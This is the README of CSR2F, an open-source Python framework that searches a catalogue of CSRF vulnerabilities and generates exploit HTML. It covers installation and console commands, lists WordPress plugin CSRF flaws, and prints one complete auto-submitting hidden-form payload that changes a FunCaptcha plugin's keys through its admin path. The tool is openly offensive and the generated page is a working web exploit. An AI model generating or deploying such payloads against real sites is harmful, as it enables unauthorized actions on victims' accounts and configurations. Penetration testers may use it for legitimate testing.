 CSR2F
=====

CSR2F (Cross-Site Request Forgery Framework) is an open source tool written in Python and used for generating CSRF (Cross-Site Request Forgery) exploits.
It allows you to search an exploit for a specific case (for example a vulnerable WordPress plugin), then to configure and generate the HTML code.


Prerequisites
----

* CSR2F uses [Python 3](http://www.python.org/download/) to run.


Installation
----

You can download the latest tarball by clicking [here](https://github.com/ncrocfer/csr2f/tarball/master) or latest zipball by clicking [here](https://github.com/ncrocfer/csr2f/zipball/master).

Preferably, you can download CSR2F by cloning the [Git](https://github.com/ncrocfer/csr2f) repository:

    git clone https://github.com/ncrocfer/csr2f.git


Usage
----

You must execute the `csr2f.py` file to start CSR2F and obtain a prompt:

    shatter@shatter:~/csr2f$ python3 csr2f.py

    *********************************************************
    *                                                       *
    *     ______   ______   _______      _____   ________   *
    *   .' ___  |.' ____ \ |_   __ \    / ___ `.|_   __  |  *
    *  / .'   \_|| (___ \_|  | |__) |  |_/___) |  | |_ \_|  *
    *  | |        _.____`.   |  __ /    .'____.'  |  _|     *
    *  \ `.___.'\| \____) | _| |  \ \_ / /_____  _| |_      *
    *   `.____ .' \______.'|____| |___||_______||_____|     *
    *                                                       *
    *         Cross Site Request Forgery Framework          *
    *                                                       *
    * Version  : 0.1b                                       *
    * Author   : Nicolas Crocfer                            *
    * Website  : http://csr2f.github.com                    *
    * Licence  : GPLv3                                      *
    *                                                       *
    *********************************************************

    [+] 207 exploits loaded

    csr2f> 


**help**

This command describes the other commands and shows their usage.

    csr2f> help

    Commands	Description
    ========	===========

    config  	Display the configuration options
    clear   	Clear the current screen
    search  	Search an exploit based on keyword
    show    	Display informations about an exploit based on its ID
    set     	Set special fields for an exploit
    generate	Generate the exploit to the console or in a file
    ...			...

    csr2f> help config

    This command is used to view and modify the basic configuration. You
    can view it by typing 'config' without argument.

    Usage:	config <item> <value>
    Ex:	config host_url http://www.example.com

    csr2f>


**config**

This command is used to view and modify the basic configuration.

    csr2f> config

        Config			Value
        ======			=====
    
        host_url		http://www.example.com
        redirect		False
        html_skeleton	True
        html_title		CSR2F : Cross Site Request Forgery Framework
        redirect_url	http://www.example.com

    csr2f> config redirect True
    [+] The value has been modified
    csr2f>


**search**

You can search an exploit based on keywords by using the `search` command.

    csr2f> search wordpress plugin

    Date           ID      Method     Name                           Description
    ====           ==      ======     ====                           ===========
  
    2013-04-11     112     POST       Wordpress FunCaptcha plug...   A CSRF vulnerability allows to disable...
    2013-03-25     134     POST       Wordpress Mathjax Latex P...   There is no CSRF protection on the mat...
    2013-03-01     175     POST       WordPress SolveMedia 1.1.0     SolveMedia is a capatcha service that ...
    ...            ...     ...        ...                            ...

    csr2f>


**show**

This command is used to show the informations about an exploit (author, description, configuration...). 

    csr2f> show 112

    Informations
    ============

        Name : Wordpress FunCaptcha plugin 0.3.2
        ----
    
        Description
        -----------
        A CSRF vulnerability allows to disable the plugin by submitting an invalid private or public key.
    
        Author : Nicolas Crocfer (https://github.com/ncrocfer)
        ------
    
        Method & Path : (POST) /wp-admin/plugins.php?page=funcaptcha/wp_funcaptcha.php
        -------------

    Configuration
    =============

    	funcaptcha[public_key] => foo
    	----------------------
    	Value of the new public key

    	funcaptcha[private_key] => bar
        -----------------------
        Value of the new private key

    csr2f>


**set**

Each exploit can contain special fields that you can edit (for example a username, a password, an email adress...). This command is used to	change these values.

    csr2f> set 112 funcaptcha[public_key] 1234
    [+] The value has been modified
    csr2f>

**generate**

This command is used to generate the HTML exploit. You can display it on the screen by typing `generate <id>` without other argument. You can also pass a filename to create a new file.

    csr2f> generate 112

    <!DOCTYPE html>
    <html>
      <head>
          <meta charset="utf-8"/>
          <title>
              CSR2F : Cross Site Request Forgery Framework
          </title>
      </head>
      <body>
        <form action="http://www.example.com/wp-admin/plugins.php?page=funcaptcha/wp_funcaptcha.php" id="csr2f" method="post">
          <input name="funcaptcha[public_key]" type="hidden" value="foo"/>
          <input name="funcaptcha[private_key]" type="hidden" value="bar"/>
          <input name="funcaptcha[action]" type="hidden" value="settings"/>
          <input name="funcaptcha[type]" type="hidden" value="Settings"/>
        </form>
        <script type="text/javascript">
          document.getElementById("csr2f").submit();
        </script>
      </body>
    </html>

    csrf2> generate 112 index.html
    [+] The file was created in 'output' folder
    csrf2>


**Other commands**

* `clear` : Clear the user screen
* `update` : Update the exploits list
* `exit` : Exit the console


Creating a new exploit
----

For the time being, CSR2F does not include a lot of exploits. I am currently incorporating the ones already online on [exploit-db.com](http://www.exploit-db.com/search/?action=search&filter_description=csrf).

But the goal of this framework is to be the reference for CSRF vulnerabilities : so I encourage you to integrate your exploit to this tool when you discover a new vulnerability, and thereby increase the list with your contributions.

CSR2F uses a simple template for integrating new exploits. Each exploit is located in the `exploits` folder. For the moment this tool is still in Beta version, so I am waiting the return of beta testers to see if I need to add or modify the template system and then update this documentation. Anyway you can view the existing templates and tell me what do you think about.


Oh, one last thing
----

I'm a French developer, my English is not perfect and I thank you in advance to tell me my mistakes :)